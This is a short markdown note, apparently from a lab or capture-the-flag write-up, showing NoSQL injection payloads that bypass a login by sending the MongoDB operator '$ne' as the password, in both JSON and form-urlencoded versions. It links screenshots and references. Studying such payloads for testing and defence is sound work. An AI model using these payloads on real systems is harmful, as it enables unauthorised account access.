 # Using Content Type application/json

```json
{ "username": "admin", "password": { "$ne": 1 } }
```

![](https://hackmd.io/_uploads/SJY5jHREh.png)

# Using Content Type application/x-www-form-urlencoded

```
username=admin&password[$ne]=1
```

![](https://hackmd.io/_uploads/SJh1iBCV2.png)

# Reference

- https://book.hacktricks.xyz/pentesting-web/nosql-injection
- https://www.mongodb.com/docs/manual/reference/operator/query/